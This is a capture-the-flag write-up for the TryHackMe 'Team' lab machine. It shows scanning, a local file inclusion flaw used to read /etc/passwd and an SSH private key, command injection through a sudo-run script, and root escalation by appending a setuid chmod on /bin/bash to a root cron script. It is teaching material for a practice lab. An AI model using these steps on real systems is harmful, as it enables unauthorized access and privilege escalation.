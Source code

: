 Hello this is my first write up fot the room Team from THM -> https://tryhackme.com/room/teamcw . I hope you will like it. For any questions or whatever message u can find me on Twitter https://twitter.com/Vojtech1337 . 
We will start with adding host to the /etc/hosts file and after that we will do all ports nmap scan.
```
echo "\n10.10.162.244 team.thm" >> /etc/hosts

Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-05 06:13 EDT
Nmap scan report for 10.10.96.107 (10.10.96.107)
Host is up (0.069s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
|_  256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
We see that we have ftp open so lets try to login with anonymous and leave password blank. But we have noo success. Next comes the web page on port 80.

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/Tryhackme-Write-Ups/Team/images/team_web.png?raw=true)

It looks like a static page - nothing interesting there. Gobuster didn't find any directories but found one subdomain -dev.team.thm .
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     team.thm
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
===============================================================
2022/10/07 07:11:48 Starting gobuster in DNS enumeration mode
===============================================================
Found: dev.team.thm
===============================================================
2022/10/07 07:20:56 Finished
===============================================================

```
We need to add it to the /etc/hosts as well to acess it.
```
echo "\n10.10.162.244 dev.team.thm" >> /etc/hosts
```
Now let's see what is on this page.
![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/Tryhackme-Write-Ups/Team/images/dev_team_web.png?raw=true)

Only thing here is link when we click it it redirects us to dev.team.thm/script.php?page=teamshare.php . 
This URL with page parameter immediately looks vulnerable to LFI attack. The easiest way to start testing this vulnerability is putting 
/etc/passwd into the page parameter which is successful and we have valid vulnerability.
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
dale:x:1000:1000:anon,,,:/home/dale:/bin/bash
gyles:x:1001:1001::/home/gyles:/bin/bash
ftpuser:x:1002:1002::/home/ftpuser:/bin/sh
ftp:x:110:116:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
```
We can see that (judging by which users have /bin/bash shell) there are 3 users - gyles,dale and root.
Now to get most of it we'll spin up wfuzz to fuzz pages. I've used this wordlist with linux files - https://github.com/DragonJAR/Security-Wordlist/blob/main/LFI-WordList-Linux
```
wfuzz -u http://dev.team.thm/script.php?page=FUZZ -w LFI-WordList-Linux --hw 0

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://dev.team.thm/script.php?page=FUZZ
Total requests: 771

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
=====================================================================
					-------redacted---------
000000260:   200        78 L     339 W      2684 Ch     "/etc/sysctl.conf"
000000251:   200        169 L    447 W      5990 Ch     "/etc/ssh/sshd_config"
000000231:   200        66 L     412 W      2180 Ch     "/etc/security/time.conf"
000000222:   200        107 L    663 W      3636 Ch     "/etc/security/group.conf"
000000228:   200        74 L     499 W      2973 Ch     "/etc/security/pam_env.conf"
000000226:   200        29 L     217 W      1441 Ch     "/etc/security/namespace.conf"
000000230:   200        12 L     70 W       420 Ch      "/etc/security/sepermit.conf"                                                                   
```
It will return many files but the most important one is /etc/ssh/sshd_config which contains id_rsa key.

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/Tryhackme-Write-Ups/Team/images/lfi_sshkey.png?raw=true)

Now we only need to copy the key to the file(without the hashes on the left) and chmod 600 and then we can simply use ssh command 
to connect to the machine as dale and cat the flag.
```
└─# ssh dale@team.thm -i id_rsa
Last login: Mon Jan 18 10:51:32 2021
dale@TEAM:~$ id
uid=1000(dale) gid=1000(dale) groups=1000(dale),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),113(lpadmin),114(sambashare),1003(editors)
dale@TEAM:~$ cat user.txt 
THM{6Y0TXH*****}
```

Starting privilege escalation, we do simple sudo -l to see which commands we can run as different users and look at what the script does.
![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/Tryhackme-Write-Ups/Team/images/ssh_sudo-l.png?raw=true)

If you don't know what any of these commands do u can use linux documentation. What read does here is putting out input into error
variable and then putting it straight into bash. This leads to command execution with simple /bin/bash.

```
dale@TEAM:~$ sudo -u gyles /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: whatever
Enter 'date' to timestamp the file: /bin/bash
The Date is 
id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
python3 -c 'import pty;pty.spawn("/bin/bash")'
gyles@TEAM:~$ id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
```
Now we're user gyles. Let's look into gyles directory. There is a .bash_history file which we can read. If you look
closely through the file there is a /usr/local/bin/main_backup.sh file which belongs to the admin group and is owned by root. There is no cronjob that we can see but it's still worth the try. The easiest way to privesc from here is to change /bin/bash permissions so it runs with the owner's (root) permissions.

```
gyles@TEAM:/home/gyles$ echo "chmod +s /bin/bash" >> /usr/local/bin/main_backup.s
gyles@TEAM:/home/gyles$ cat /usr/local/bin/main_backup.sh
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/
chmod +s /bin/bash
```
Now we wait a until the minute passes and do
```
gyles@TEAM:/home/gyles$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1113504 Apr  4  2018 /bin/bash
```
If you want to keep the permissions and escalate to the root user u need to run it with -p otherwise it won't keep the permissions.
```
gyles@TEAM:/home/gyles$ /bin/bash -p
bash-4.4# id
uid=1001(gyles) gid=1001(gyles) euid=0(root) egid=0(root) groups=0(root),1001(gyles),1003(editors),1004(admin)
bash-4.4# cat /root/root.txt
THM{fhqbz*******}
```
And we have successfully rooted this machine and got the root flag.
Thank you so much for reading this write up. If you have any suggestions, questions or just want to play CTFs with someone reach me out 
on Twitter or wherever else you can find me.

